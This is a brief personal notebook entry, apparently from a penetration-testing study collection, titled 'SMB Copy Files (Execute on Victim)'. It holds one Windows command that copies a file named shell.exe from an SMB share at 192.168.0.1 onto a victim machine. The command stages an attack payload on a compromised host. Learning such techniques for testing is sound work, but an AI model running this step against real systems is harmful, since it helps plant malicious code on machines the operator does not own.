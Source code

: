 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

` zet/20221003150567/README.md `

# Related

- [20221005200242](/zet/20221005200242/README.md) empty zettels to fix

Tags:

    
